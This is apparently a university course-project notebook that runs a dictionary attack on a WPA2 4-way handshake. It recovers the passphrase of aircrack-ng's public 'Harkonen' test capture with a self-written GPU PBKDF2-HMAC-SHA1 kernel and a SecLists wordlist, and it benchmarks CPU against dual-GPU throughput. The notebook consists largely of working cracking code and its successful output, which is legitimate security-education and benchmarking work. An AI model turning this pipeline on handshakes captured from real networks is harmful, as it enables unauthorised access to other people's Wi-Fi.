# GPU-accelerated end-to-end crack of a real internet-sourced pcap (Kaggle T4x2 / P100)

**Project 20 -- Wi-Fi Password Cracking Attack (CSE 406).** This notebook demonstrates the full
attack pipeline -- not just a raw PBKDF2 microbenchmark -- against a **real, internet-sourced**
WPA2 handshake capture, using our own GPU-accelerated PMK kernel for the expensive step (PBKDF2
x4096) and the **project's own, already-tested `wpacrack.crypto` module** (unmodified) for the
PRF-512 + MIC verification step. That split is deliberate: it keeps the new GPU code surface
limited to the one thing worth accelerating, while the pass/fail decision on whether a password
was actually found still rests on code that is already unit-tested and cross-validated against
real captures on CPU.

**Kaggle setup:** Notebook Settings -> Accelerator -> **GPU T4 x2** or **GPU P100**, Internet ON
(needed to `git clone` the project repo and download the real capture + wordlist).


## Step 0 -- Fetch the project code and a real, internet-sourced capture

In [1]:
import sys, os, subprocess

if not os.path.isdir("repo"):
    subprocess.run(["git", "clone", "--depth", "1",
                     "https://github.com/g-schatten/CSE406-Project.git", "repo"], check=True)
sys.path.insert(0, "repo")

from wpacrack import parse, crypto  # the project's own, already-tested modules -- unmodified

os.makedirs("caps", exist_ok=True)
# aircrack-ng's own test capture: SSID "Harkonen", real passphrase "12345678", a clean WPA2-AES
# full 4-way handshake (no PMKID) -- ground truth confirmed against aircrack-ng's own test scripts.
subprocess.run(["curl", "-fsSL", "-o", "caps/wpa2.eapol.cap",
                 "https://raw.githubusercontent.com/aircrack-ng/aircrack-ng/master/test/wpa2.eapol.cap"], check=True)
print("Downloaded caps/wpa2.eapol.cap")

records = parse.parse_capture("caps/wpa2.eapol.cap")
rec = list(records.values())[0]
rec.ssid = rec.ssid or "Harkonen"
print("Parsed handshake: ssid=%r  aa=%s  spa=%s  has_mic_pair=%s  kdv=%s"
      % (rec.ssid, rec.aa.hex(), rec.spa.hex(), rec.has_mic_pair(), rec.mic_msg.kdv if rec.mic_msg else None))
TARGET_PASSWORD = "12345678"  # published ground truth for this exact capture -- used only to verify success


Cloning into 'repo'...


Downloaded caps/wpa2.eapol.cap
Parsed handshake: ssid='Harkonen'  aa=00146c7e4080  spa=001346fe320c  has_mic_pair=True  kdv=2


## GPU-batched PBKDF2-HMAC-SHA1 kernel (own code)

This is **our own** from-scratch SHA-1 / HMAC-SHA1 / PBKDF2-HMAC-SHA1 implementation, written as
batched PyTorch tensor operations so one kernel launch processes thousands of candidate
passphrases at once on the GPU. It is **not** aircrack-ng, Hashcat, or any other cracking tool --
it is the exact same algorithm `wpacrack/crypto/__init__.py` already implements with
`hashlib.pbkdf2_hmac`, just re-expressed as parallel tensor arithmetic instead of a Python loop.

Every 32-bit SHA-1 word is represented as an `int64` tensor with a `& 0xFFFFFFFF` mask applied
after every arithmetic op, so the modular (mod 2^32) arithmetic SHA-1 requires is exact regardless
of the underlying dtype.

**Speed note:** one PBKDF2 call makes ~8,190 separate calls to the one-block SHA-1 step below
(4096 iterations x 2 HMAC calls), each of which used to be dozens of individually-dispatched
small operations -- the actual source of the "fixed few-minutes-per-call" cost measured earlier.
To fix that, the SHA-1 step is wrapped in `torch.compile(...)`: instead of Python asking the GPU
to do one tiny thing at a time (thousands of times per call), it records the *whole* one-block
recipe once, fuses it into a much smaller number of actual GPU launches, and replays that fused
version on every one of the ~8,190 repeated calls. There's a **two-step safety net** (plain
`torch.compile` first, falling back automatically to the original, unoptimized version if that
fails) since this can't be tested without a live GPU. (An earlier version also tried
`mode="reduce-overhead"`, which measured very well single-threaded but turned out to crash when
replayed concurrently across two GPUs -- see the kernel cell's own comments for what happened and
why it was removed.) Whichever tier ends up active is printed after the validation cell runs.

**Before any benchmark number in this notebook is trusted, the very next cell validates this
kernel byte-for-byte against Python's own `hashlib.pbkdf2_hmac`** for many random passwords and
SSID lengths (including the canonical IEEE 802.11i test vector) -- this check exercises whichever
tier is actually active, so a compiled-but-subtly-wrong kernel would still be caught here. **If
that validation cell fails, STOP -- do not trust any timing below it**, and see the fallback note
in the cell below for how to force plain eager mode if `torch.compile` is the culprit.


In [2]:
import struct
import torch

MASK32 = 0xFFFFFFFF


def _rotl(x, n):
    return ((x << n) | (x >> (32 - n))) & MASK32


def _sha1_batch_eager(word_blocks: torch.Tensor) -> torch.Tensor:
    """word_blocks: (B, n_blocks*16) int64 tensor of big-endian 32-bit message words,
    already padded per FIPS 180-4. Returns (B, 5) int64 tensor of digest words h0..h4.
    This is the original, uncompiled reference -- kept as the last-resort fallback below."""
    B = word_blocks.shape[0]
    n_blocks = word_blocks.shape[1] // 16
    device = word_blocks.device
    h0 = torch.full((B,), 0x67452301, dtype=torch.int64, device=device)
    h1 = torch.full((B,), 0xEFCDAB89, dtype=torch.int64, device=device)
    h2 = torch.full((B,), 0x98BADCFE, dtype=torch.int64, device=device)
    h3 = torch.full((B,), 0x10325476, dtype=torch.int64, device=device)
    h4 = torch.full((B,), 0xC3D2E1F0, dtype=torch.int64, device=device)

    for blk in range(n_blocks):
        w = [word_blocks[:, blk * 16 + i] for i in range(16)] + [None] * 64
        for i in range(16, 80):
            w[i] = _rotl(w[i - 3] ^ w[i - 8] ^ w[i - 14] ^ w[i - 16], 1)
        a, b, c, d, e = h0, h1, h2, h3, h4
        for i in range(80):
            if i < 20:
                f = (b & c) | ((~b & MASK32) & d)
                k = 0x5A827999
            elif i < 40:
                f = b ^ c ^ d
                k = 0x6ED9EBA1
            elif i < 60:
                f = (b & c) | (b & d) | (c & d)
                k = 0x8F1BBCDC
            else:
                f = b ^ c ^ d
                k = 0xCA62C1D6
            temp = (_rotl(a, 5) + f + e + k + w[i]) & MASK32
            e, d, c, b, a = d, c, _rotl(b, 30), a, temp
        h0 = (h0 + a) & MASK32
        h1 = (h1 + b) & MASK32
        h2 = (h2 + c) & MASK32
        h3 = (h3 + d) & MASK32
        h4 = (h4 + e) & MASK32
    return torch.stack([h0, h1, h2, h3, h4], dim=1)


# --- Tiered compile-with-fallback: try the fastest safe option first, fall back automatically
# (and permanently, for the rest of the session) if a tier errors out. This can't be pre-tested
# without a live GPU, so the safety net matters more than the choice of "best" tier.
#
# NOTE ON mode="reduce-overhead" (CUDA graphs): an earlier version of this kernel tried that
# mode first. On a live Kaggle T4x2 it worked perfectly for single-threaded, single-GPU use
# (Step 3 measured 1,200-2,200+ candidates/sec with it), but calling it CONCURRENTLY from two
# threads on two different GPUs -- which the dual-GPU cells below do on purpose -- crashed with
# an internal AssertionError, and *not* just on first use: it failed even after both devices had
# already been warmed up. That means the problem isn't a one-time compile race (which warmup
# fixes) but CUDA graph replay itself not tolerating this concurrent multi-GPU pattern. Rather
# than keep chasing that, "reduce-overhead" has been dropped entirely -- plain `torch.compile`
# (Inductor fusion, no CUDA graphs) still gives a very large speedup over eager and does not
# have this failure mode.
#
# THREAD SAFETY (still relevant for plain torch.compile): its first-ever compilation of a given
# (function, device, shape) is not safe to trigger from two threads at once -- confirmed
# separately on the same run. Two things handle this: (1) only the tiny bookkeeping below is
# lock-protected, never the (possibly slow) GPU call itself, so two threads on two different
# devices still run genuinely concurrently once compiled; (2) `warmup_sha1_backend(devices)`,
# called once sequentially (never from a thread) right after validation, exercises EVERY tier on
# EVERY device up front -- not just whichever tier happens to be active at the time -- so that
# even a later mid-session fallback never has to compile for the first time inside a thread pool.
import threading

_SHA1_TIER_NAMES = ["compile:default", "eager (unoptimized fallback)"]
_SHA1_TIER_FNS = [torch.compile(_sha1_batch_eager), _sha1_batch_eager]  # built once, reused everywhere
_active_tier = [0]
_tier_lock = threading.Lock()


def _sha1_batch(word_blocks: torch.Tensor) -> torch.Tensor:
    while True:
        with _tier_lock:
            idx = _active_tier[0]
            if idx >= len(_SHA1_TIER_FNS):
                raise RuntimeError("All tiers, including the plain eager fallback, failed -- this should not happen.")
            fn = _SHA1_TIER_FNS[idx]
        try:
            return fn(word_blocks)  # the actual (possibly slow) GPU call happens OUTSIDE the lock
        except Exception as e:
            with _tier_lock:
                if _active_tier[0] == idx:  # only the thread that first hit this failure escalates
                    print(f"[{_SHA1_TIER_NAMES[idx]}] failed ({type(e).__name__}: {e}) -- falling back to the next tier.")
                    _active_tier[0] += 1
            # otherwise another thread already escalated us past this tier -- just retry the loop


def active_sha1_backend() -> str:
    return _SHA1_TIER_NAMES[_active_tier[0]]


def force_eager_sha1():
    """Manual override: call this if you want to rule out torch.compile as the cause of a
    problem, or to get a clean eager-mode baseline for comparison."""
    with _tier_lock:
        _active_tier[0] = len(_SHA1_TIER_FNS) - 1
    print(f"Forced SHA1 backend to: {active_sha1_backend()}")


def warmup_sha1_backend(devices):
    """Sequentially (never concurrently) exercises EVERY tier on EVERY device, using TWO
    different tiny batch sizes each. Two different sizes matter: PyTorch's automatic
    dynamic-shape detection only marks the batch dimension as dynamic (so ANY later batch size
    reuses the same compiled graph with no further compilation) after it has seen a shape
    change. Calls each tier's function directly with a dummy word-block tensor -- the exact
    (B, 32) shape every real call uses -- rather than through _sha1_batch, so warmup exercises
    every tier regardless of which one is currently active."""
    for tier_idx, fn in enumerate(_SHA1_TIER_FNS):
        for d in devices:
            for n in (3, 7):
                try:
                    fn(torch.zeros((n, 32), dtype=torch.int64, device=d))
                except Exception as e:
                    print(f"[warmup] {_SHA1_TIER_NAMES[tier_idx]} on {d} failed ({type(e).__name__}: {e}) -- "
                          f"fine for now, it will simply be skipped if ever selected.")
    print(f"Warmup complete for devices {[str(d) for d in devices]}. Active backend: {active_sha1_backend()}")


def _bytes_to_padded_words(msg: bytes):
    """Standard FIPS 180-4 SHA-1 padding; returns the full padded message as a list of
    big-endian 32-bit words (length always a multiple of 16)."""
    ml = len(msg) * 8
    m = msg + b"\x80"
    while len(m) % 64 != 56:
        m += b"\x00"
    m += struct.pack(">Q", ml)
    return list(struct.unpack(">%dI" % (len(m) // 4), m))


def _words16_from_bytes64(b64: bytes):
    return list(struct.unpack(">16I", b64))


def pbkdf2_hmac_sha1_gpu(passwords, ssid: bytes, iterations: int, dklen: int, device):
    """Batched PBKDF2-HMAC-SHA1 (RFC 2898 / IEEE 802.11i PMK derivation), passwords is a
    list[bytes], each 1..64 bytes (true for every valid WPA2-PSK passphrase, 8..63 ASCII chars).
    Returns a (B, dklen) uint8 numpy array, one row per password, in the same order."""
    B = len(passwords)
    for p in passwords:
        if len(p) > 64:
            raise ValueError("key>64B pre-hash path not implemented in this kernel (not needed for WPA2-PSK)")

    ipad_rows = torch.empty((B, 16), dtype=torch.int64, device=device)
    opad_rows = torch.empty((B, 16), dtype=torch.int64, device=device)
    for row, pw in enumerate(passwords):
        key64 = pw + b"\x00" * (64 - len(pw))
        ikp = bytes(x ^ 0x36 for x in key64)
        okp = bytes(x ^ 0x5C for x in key64)
        ipad_rows[row] = torch.tensor(_words16_from_bytes64(ikp), dtype=torch.int64)
        opad_rows[row] = torch.tensor(_words16_from_bytes64(okp), dtype=torch.int64)

    hlen = 20
    n_out_blocks = -(-dklen // hlen)
    dk = torch.zeros((B, n_out_blocks * hlen), dtype=torch.int64, device=device)

    # Constant tail for keypad(64B)+digest(20B)=84B messages (every inner/outer call from
    # round 2 onward, and every outer call). Depends only on the fixed length 84.
    dummy84 = _bytes_to_padded_words(b"\x00" * 84)
    tail84 = torch.tensor(dummy84[21:], dtype=torch.int64, device=device)  # words after the 21 real words

    for out_block in range(1, n_out_blocks + 1):
        salt_ctr = ssid + struct.pack(">I", out_block)
        dummy_r1 = _bytes_to_padded_words(b"\x00" * 64 + salt_ctr)
        tail_r1 = torch.tensor(dummy_r1[16:], dtype=torch.int64, device=device)

        inner1_msg = torch.cat([ipad_rows, tail_r1.unsqueeze(0).expand(B, -1)], dim=1)
        inner1 = _sha1_batch(inner1_msg)
        outer1_msg = torch.cat([opad_rows, inner1, tail84.unsqueeze(0).expand(B, -1)], dim=1)
        u = _sha1_batch(outer1_msg)
        u_xor = u.clone()

        for _ in range(iterations - 1):
            inner_msg = torch.cat([ipad_rows, u, tail84.unsqueeze(0).expand(B, -1)], dim=1)
            inner = _sha1_batch(inner_msg)
            outer_msg = torch.cat([opad_rows, inner, tail84.unsqueeze(0).expand(B, -1)], dim=1)
            u = _sha1_batch(outer_msg)
            u_xor = u_xor ^ u

        off = (out_block - 1) * hlen
        # pack 5 x 32-bit words -> 20 bytes, big-endian, per row
        for wi in range(5):
            word = u_xor[:, wi]
            for byte_i in range(4):
                shift = (3 - byte_i) * 8
                dk[:, off + wi * 4 + byte_i] = (word >> shift) & 0xFF

    dk = dk[:, :dklen]
    return dk.to(torch.uint8).cpu().numpy()


## Step 1 -- Validate the kernel (must pass before trusting the crack timing below)

In [3]:
import hashlib
import random

assert torch.cuda.is_available(), "No CUDA GPU visible -- on Kaggle, set Settings > Accelerator to GPU T4x2 or P100"
device = torch.device("cuda:0")
print("GPU(s) visible:", torch.cuda.device_count())
for i in range(torch.cuda.device_count()):
    print(" ", i, torch.cuda.get_device_name(i))

random.seed(20260918)

# 1. Canonical IEEE 802.11i / WPA test vector: PBKDF2-HMAC-SHA1("password","IEEE",4096,32)
#    == f42c6fc52df0ebef9ebb4b90b38a5f902e83fe1b135a70e23aed762e9710a12e
got = pbkdf2_hmac_sha1_gpu([b"password"], b"IEEE", 4096, 32, device)
want = hashlib.pbkdf2_hmac("sha1", b"password", b"IEEE", 4096, dklen=32)
assert bytes(got[0]) == want, (bytes(got[0]).hex(), want.hex())
print("Canonical IEEE vector OK:", bytes(got[0]).hex())

# 2. A real project fact: WPA2-PSK "Coherer"/"Induction" (Wireshark wpa-Induction.pcap PMK)
got2 = pbkdf2_hmac_sha1_gpu([b"Induction"], b"Coherer", 4096, 32, device)
want2 = hashlib.pbkdf2_hmac("sha1", b"Induction", b"Coherer", 4096, dklen=32)
assert bytes(got2[0]) == want2
print("Induction/Coherer PMK OK:", bytes(got2[0]).hex())

# 3. Batch of random passwords, varying length (8..63) and varying SSID length (0 and 32 bytes --
#    the two extremes that change the round-1 padding word count, the actual bug-prone part of a
#    batched kernel), full 4096 iterations, dklen=32. NOTE: this kernel's wall-clock cost per call
#    is dominated by a fixed ~27 million small tensor-op dispatches (independent of batch size --
#    see the notebook intro), so each call below costs roughly the same few minutes regardless of
#    how large a batch we validate; we therefore validate with a SMALL batch (24) at just the two
#    edge-case SSID lengths, which already exercises the risky code path without wasting GPU time
#    re-proving something a bigger batch would only repeat.
all_ok = True
for ssid_len in (0, 32):
    ssid = bytes(random.randint(32, 126) for _ in range(ssid_len))
    pws = ["".join(random.choice("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789")
                    for _ in range(random.randint(8, 63))).encode() for _ in range(24)]
    got_batch = pbkdf2_hmac_sha1_gpu(pws, ssid, 4096, 32, device)
    for pw, g in zip(pws, got_batch):
        w = hashlib.pbkdf2_hmac("sha1", pw, ssid, 4096, dklen=32)
        ok = bytes(g) == w
        all_ok &= ok
        if not ok:
            print("MISMATCH ssid_len=%d pw=%r" % (ssid_len, pw))
    print(f"ssid_len={ssid_len}: batch of {len(pws)} random passwords, 4096 iters -- all match hashlib")

assert all_ok, "GPU kernel does NOT match hashlib -- DO NOT trust any benchmark below. Stop and report this."
print("\nALL VALIDATION CHECKS PASSED -- the kernel is byte-identical to hashlib.pbkdf2_hmac.")
print(f"Active SHA1 backend: {active_sha1_backend()}")
print("It is now safe to use the measurements below in the report.")
print("(If you want a clean eager-mode baseline to compare against, call force_eager_sha1() and re-run this cell.)")


GPU(s) visible: 2
  0 Tesla T4
  1 Tesla T4
Canonical IEEE vector OK: f42c6fc52df0ebef9ebb4b90b38a5f902e83fe1b135a70e23aed762e9710a12e
Induction/Coherer PMK OK: a288fcf0caaacda9a9f58633ff35e8992a01d9c10ba5e02efdf8cb5d730ce7bc
ssid_len=0: batch of 24 random passwords, 4096 iters -- all match hashlib
ssid_len=32: batch of 24 random passwords, 4096 iters -- all match hashlib

ALL VALIDATION CHECKS PASSED -- the kernel is byte-identical to hashlib.pbkdf2_hmac.
Active SHA1 backend: compile:default
It is now safe to use the measurements below in the report.
(If you want a clean eager-mode baseline to compare against, call force_eager_sha1() and re-run this cell.)


## A real performance characteristic of this kernel (read before running the rest)

Without any fusion, this kernel dispatches **one PyTorch op per SHA-1 step**. A full PBKDF2 call
(4096 iterations x 2 SHA-1 calls x 80 rounds) issues on the order of **~27 million individual
tensor-op dispatches** -- and that count does **not** depend on batch size, since each op
processes a whole `(B,)` tensor in one dispatch. That was measured for real on a Kaggle T4x2: every
call cost ~577 seconds regardless of whether the batch had 1 or 64 candidates in it, because the
cost was dominated by Python/CUDA dispatch overhead, not raw GPU compute.

The kernel above now tries to fix exactly that, via `torch.compile` (see the kernel cell's own
comments): instead of one dispatch per tiny step, it records the whole SHA-1 step's recipe **once**
and replays a fused version on every one of the ~8,190 repeated calls inside a single PBKDF2 run.
Two practical consequences:

1. **The first call at any new batch size now costs extra** (a one-time compile), and *subsequent*
   calls at that same size should be much cheaper -- this is a real change from before, where every
   call cost the same regardless of order. Expect the very first cell that calls
   `pbkdf2_hmac_sha1_gpu` to feel slower than you might hope; that's the one-time compile, not a
   sign anything is broken.
2. **Bigger batches are still nearly free relative to smaller ones** -- so we still never chunk a
   wordlist into many small batches; each device processes its whole share in **one** call
   (falling back to a half-sized retry only if that runs out of GPU memory).

This can't be tested without a live GPU, so there's a built-in safety net: if `torch.compile`
fails at its first real use, the kernel automatically falls back to a plain (still correct, just
slower) version -- see `active_sha1_backend()` after the validation cell above to check which one
ended up running, and `force_eager_sha1()` if you want a clean before/after comparison for the
report.

**One more thing this notebook does, learned from a real failure on a live Kaggle T4x2 run:**
`torch.compile`'s first-ever compilation is not safe to trigger from two Python threads at the
same time. The dual-GPU cells below use threads so both GPUs run genuinely concurrently -- if the
*first* time `cuda:1` is ever used happened inside that threaded section, it would race with
whatever `cuda:0` is doing and crash (confirmed: this exact thing happened, with the error
"Detected that you are using FX to symbolically trace a dynamo-optimized function"). The fix is
the next cell: it forces the one-time compile for **every** GPU to happen safely, one at a time,
in plain sequential code, before any threaded section runs.


## Step 1b -- Warm up every GPU (sequentially, never from a thread)

Forces the one-time `torch.compile` cost for each visible GPU to happen right here, safely, one
device after another -- so that by the time any *threaded* dual-GPU cell below runs, every device
has already been compiled and those cells only ever *replay* already-compiled code, which is
safe to do concurrently. Two different tiny batch sizes are used per device on purpose: PyTorch
only learns "this batch size can vary" after it has *seen* it vary once, and once it has, later
calls with any (larger) batch size reuse the same compiled graph with no further compilation.


In [4]:
_all_devices = [torch.device(f"cuda:{i}") for i in range(torch.cuda.device_count())]
warmup_sha1_backend(_all_devices)


Warmup complete for devices ['cuda:0', 'cuda:1']. Active backend: compile:default


## Step 2 -- Fetch a real wordlist

Uses SecLists' well-known, freely-distributed "10 million password" list (source: xato.net /
Mark Burnett; a standard security-education wordlist, not a leak of private data) in its small
**100,000-entry** form (~760 KB). SecLists also ships the full deduplicated list
(`xato-net-10-million-passwords.txt`, 5,189,454 entries despite the "10 million" name, ~47 MB) --
we deliberately do **not** use it here, for a reason worth stating in the report: the real
passphrase for this capture, `12345678`, ranks **#3** in *both* files (it's one of the most common
passwords ever leaked), so file size changes nothing about whether or how fast we find it -- it
only changes how much we'd be downloading/scanning for zero extra information. The full list is
used later (Step 5c) for a genuinely size-sensitive measurement: sustained throughput over a
realistic full-scale attack, run to completion rather than stopped at the first hit.


In [5]:
import subprocess

WORDLIST_PATH = "caps/wordlist_100k.txt"
subprocess.run(["curl", "-fsSL", "-o", WORDLIST_PATH,
                 "https://raw.githubusercontent.com/danielmiessler/SecLists/master/"
                 "Passwords/Common-Credentials/xato-net-10-million-passwords-100000.txt"], check=True)

with open(WORDLIST_PATH, encoding="utf-8", errors="ignore") as f:
    wordlist = [line.rstrip("\n\r") for line in f]
print(f"Loaded {len(wordlist):,} candidate passwords")
print("Target present:", TARGET_PASSWORD in wordlist,
      "at rank", wordlist.index(TARGET_PASSWORD) + 1 if TARGET_PASSWORD in wordlist else None)


def exclude_target(candidates):
    """Used ONLY for the forced-full-scan throughput measurements below (Steps 5, 5b, 5c) --
    the real password ranks #3 in this wordlist, so simply appending a sentinel at the END of a
    slice does NOT force a full scan: cpu_mic_attack (and, less critically, gpu_mic_attack) return
    the instant they hit the real match near the START of the list. Filtering the real password
    out first makes the sentinel the only possible match, guaranteeing every candidate before it
    actually gets processed -- otherwise the measured 'rate' is just (large N) / (near-zero time
    to match candidate #3), which is nonsense, not a throughput number."""
    return [c for c in candidates if c != TARGET_PASSWORD]


Loaded 100,000 candidate passwords
Target present: True at rank 3


## Step 3 -- CPU baseline: run the real Attack 1 (MIC) exactly as `wpacrack` does it

This calls the project's own `crypto.compute_pmk` / `crypto.derive_ptk` / `crypto.verify_mic` --
the identical functions `wpacrack mic` uses -- in a plain Python loop, timed. Because the real
password ranks #3, this will find it almost instantly regardless of file size -- that speed *is*
the finding (the capture is trivially weak); the meaningful CPU-vs-GPU rate comparison is the
forced full scan in Step 5, which is unaffected by where the target sits.


In [6]:
import time
import hmac as hmac_module

kck_len = 16


def cpu_mic_attack(rec, candidates):
    tried = 0
    t0 = time.perf_counter()
    for pw in candidates:
        tried += 1
        pmk = crypto.compute_pmk(pw, rec.ssid)
        ptk = crypto.derive_ptk(pmk, rec.aa, rec.spa, rec.anonce, rec.snonce)
        kck = crypto.kck_from_ptk(ptk)
        if crypto.verify_mic(kck, rec.mic_msg.eapol_frame, rec.mic_msg.mic):
            return pw, tried, time.perf_counter() - t0
    return None, tried, time.perf_counter() - t0


found_cpu, tried_cpu, t_cpu = cpu_mic_attack(rec, wordlist)
rate_cpu = tried_cpu / t_cpu
print(f"CPU: {'FOUND ' + found_cpu if found_cpu else 'NOT FOUND'} after {tried_cpu:,} candidates "
      f"in {t_cpu:.2f}s ({rate_cpu:,.0f} candidates/sec)")
assert found_cpu == TARGET_PASSWORD, "CPU path did not recover the known-correct password -- stop and investigate"


CPU: FOUND 12345678 after 3 candidates in 0.01s (251 candidates/sec)


## Step 4 -- GPU-accelerated version of the same attack

The GPU kernel computes PMKs for **all** candidates in one call (per the runtime note above,
splitting this into many small chunks would only multiply the fixed per-call overhead for no
benefit -- so unlike a CPU loop, this does *not* try to "stop early" at the match; it computes
everything, then scans the results, which costs the same wall-clock either way). The (cheap)
PRF-512 + MIC check for each PMK is still done with the project's own `crypto` module, so the
final FOUND/NOT-FOUND decision is made by exactly the same verified code path as the CPU run
and as the graded CLI tool. Expect this single cell to take on the order of a few minutes
(dominated by the one PBKDF2 call over the whole 100k-entry list), not seconds.


In [7]:
def gpu_mic_attack(rec, candidates, device, iterations=4096):
    """Processes ALL of `candidates` on `device` in as few pbkdf2_hmac_sha1_gpu calls as
    possible (ideally exactly one) -- see the runtime note: this kernel's wall-clock cost per
    call is ~fixed regardless of batch size, so chunking into many small batches only multiplies
    that fixed cost for nothing. Falls back to splitting a batch in half only if it doesn't fit
    in GPU memory."""
    t0 = time.perf_counter()
    state = {"tried": 0, "found": None}

    def process(batch):
        if state["found"] is not None or not batch:
            return
        chunk_bytes = [c.encode("utf-8", errors="ignore")[:64] for c in batch]
        # skip any candidate that isn't a valid ASCII 8..63-byte WPA2-PSK passphrase (mirrors
        # the CPU tool's own validation instead of crashing on it -- see the cross-check notes)
        valid_idx = [i for i, b in enumerate(chunk_bytes) if 8 <= len(b) <= 63 and b.isascii()]
        if not valid_idx:
            state["tried"] += len(batch)
            return
        valid_bytes = [chunk_bytes[i] for i in valid_idx]
        try:
            pmks = pbkdf2_hmac_sha1_gpu(valid_bytes, rec.ssid.encode(), iterations, 32, device)
        except torch.cuda.OutOfMemoryError:
            torch.cuda.empty_cache()
            mid = len(batch) // 2
            if mid == 0:
                raise
            process(batch[:mid]); process(batch[mid:])
            return
        state["tried"] += len(batch) - len(valid_idx)
        for local_i, pmk_row in zip(valid_idx, pmks):
            state["tried"] += 1
            pmk = bytes(pmk_row)
            ptk = crypto.derive_ptk(pmk, rec.aa, rec.spa, rec.anonce, rec.snonce)
            kck = crypto.kck_from_ptk(ptk)
            if crypto.verify_mic(kck, rec.mic_msg.eapol_frame, rec.mic_msg.mic):
                state["found"] = batch[local_i]
                return

    process(list(candidates))
    return state["found"], state["tried"], time.perf_counter() - t0


found_gpu, tried_gpu, t_gpu = gpu_mic_attack(rec, wordlist, device)
rate_gpu = tried_gpu / t_gpu
print(f"GPU: {'FOUND ' + found_gpu if found_gpu else 'NOT FOUND'} after {tried_gpu:,} candidates "
      f"in {t_gpu:.1f}s ({rate_gpu:,.0f} candidates/sec)")
assert found_gpu == TARGET_PASSWORD, "GPU path did not recover the known-correct password -- stop and investigate"
print(f"\nSpeedup vs CPU: {rate_gpu / rate_cpu:.1f}x")


GPU: FOUND 12345678 after 60,673 candidates in 16.1s (3,767 candidates/sec)

Speedup vs CPU: 15.0x


## Step 5 -- (If T4x2) dual-GPU version, and a fixed-size throughput comparison

`tried_cpu`/`tried_gpu` above can differ (both stop at the same *found* index, but that's a
function of where the password sits in the list, not of raw speed). For a fair apples-to-apples
**throughput** number, this step forces both paths over the same fixed `THROUGHPUT_N` candidates
(a sentinel is appended so nothing matches, forcing a genuine full scan on the CPU side). The two
GPUs' shares are dispatched **concurrently from two threads** -- see the note in Step 4 of the
benchmark notebook: calling `cuda:0` then `cuda:1` sequentially would just add their times
together instead of overlapping them, defeating the point of having two GPUs.


In [8]:
import concurrent.futures

THROUGHPUT_N = 20_000
_wl_no_target = exclude_target(wordlist)
fixed_slice = (_wl_no_target * (THROUGHPUT_N // len(_wl_no_target) + 1))[:THROUGHPUT_N] + ["__no_match_sentinel_zzz__"]

_, _, t_cpu_fixed = cpu_mic_attack(rec, fixed_slice)
rate_cpu_fixed = THROUGHPUT_N / t_cpu_fixed

n_gpus = torch.cuda.device_count()
if n_gpus >= 2:
    half = len(fixed_slice) // 2
    d0, d1 = torch.device("cuda:0"), torch.device("cuda:1")
    t0 = time.perf_counter()
    with concurrent.futures.ThreadPoolExecutor(max_workers=2) as ex:
        f0 = ex.submit(gpu_mic_attack, rec, fixed_slice[:half], d0)
        f1 = ex.submit(gpu_mic_attack, rec, fixed_slice[half:], d1)
        f0.result(); f1.result()
    t_gpu_dual_fixed = time.perf_counter() - t0
else:
    _, _, t_gpu_dual_fixed = gpu_mic_attack(rec, fixed_slice, device)

rate_gpu_dual_fixed = THROUGHPUT_N / t_gpu_dual_fixed
speedup_small_n = rate_gpu_dual_fixed / rate_cpu_fixed
verdict_small_n = "GPU WINS" if speedup_small_n > 1 else "CPU WINS"
print(f"Fixed {THROUGHPUT_N:,}-candidate throughput -- CPU: {rate_cpu_fixed:,.0f}/s   "
      f"GPU: {rate_gpu_dual_fixed:,.0f}/s   ratio: {speedup_small_n:.2f}x  -> {verdict_small_n}")
if speedup_small_n < 1:
    print(f"(Expected at this N: this kernel's cost per call is ~fixed regardless of batch size --")
    print(f" see the runtime note -- so at small N, plain CPU can still be faster. Step 5b below")
    print(f" measures a second, larger N to find where the crossover actually is.)")


Fixed 20,000-candidate throughput -- CPU: 264/s   GPU: 697/s   ratio: 2.64x  -> GPU WINS


## Step 5b -- A second, larger N: finding the CPU/GPU crossover point

Because this kernel's per-call cost is ~fixed regardless of batch size while CPU's cost grows
linearly with N, there is a break-even candidate count below which plain CPU wins and above
which GPU wins -- and `THROUGHPUT_N` in Step 5 may land on either side of it depending on your
hardware. Rather than just pick one N and hope it favours GPU, we measure **two** points and
report both honestly: Step 5's `THROUGHPUT_N` (small), and a second, larger `THROUGHPUT_N_LARGE`
here. We only need a **second real GPU measurement** -- CPU's number is *calculated* from the
already-measured `rate_cpu_fixed` (not re-run), since its rate does not change with N, but GPU's
constant-cost claim is exactly the thing worth re-confirming empirically rather than assuming.


In [9]:
THROUGHPUT_N_LARGE = 200_000
large_slice = (_wl_no_target * (THROUGHPUT_N_LARGE // len(_wl_no_target) + 1))[:THROUGHPUT_N_LARGE] + ["__no_match_sentinel_zzz__"]

if n_gpus >= 2:
    half = len(large_slice) // 2
    d0, d1 = torch.device("cuda:0"), torch.device("cuda:1")
    t0 = time.perf_counter()
    with concurrent.futures.ThreadPoolExecutor(max_workers=2) as ex:
        f0 = ex.submit(gpu_mic_attack, rec, large_slice[:half], d0)
        f1 = ex.submit(gpu_mic_attack, rec, large_slice[half:], d1)
        f0.result(); f1.result()
    t_gpu_large = time.perf_counter() - t0
else:
    _, _, t_gpu_large = gpu_mic_attack(rec, large_slice, device)

rate_gpu_large = THROUGHPUT_N_LARGE / t_gpu_large
t_cpu_large_calculated = THROUGHPUT_N_LARGE / rate_cpu_fixed  # calculated, not re-run -- rate is N-independent

speedup_large_n = rate_gpu_large / rate_cpu_fixed
print(f"At N={THROUGHPUT_N_LARGE:,}: GPU measured {t_gpu_large:.1f}s ({rate_gpu_large:,.0f}/s)  "
      f"vs CPU calculated {t_cpu_large_calculated:.1f}s ({rate_cpu_fixed:,.0f}/s)  "
      f"-> {'GPU WINS' if speedup_large_n > 1 else 'CPU WINS'} ({speedup_large_n:.1f}x)")

# Analytic crossover: GPU's per-call time is ~constant (t_gpu_dual_fixed measured at THROUGHPUT_N);
# CPU's time is N / rate_cpu_fixed. They're equal at N* = t_gpu_dual_fixed * rate_cpu_fixed.
crossover_n = t_gpu_dual_fixed * rate_cpu_fixed
print(f"\nAnalytic crossover point (GPU call time / CPU rate): ~{crossover_n:,.0f} candidates.")
print("Below this N, plain CPU wins; above it, GPU wins -- by an increasingly large margin as N grows")
print("(GPU's time stays ~flat; CPU's grows linearly). See Step 5c for the full-scale-list case.")


At N=200,000: GPU measured 37.0s (5,404/s)  vs CPU calculated 758.6s (264/s)  -> GPU WINS (20.5x)

Analytic crossover point (GPU call time / CPU rate): ~7,564 candidates.
Below this N, plain CPU wins; above it, GPU wins -- by an increasingly large margin as N grows
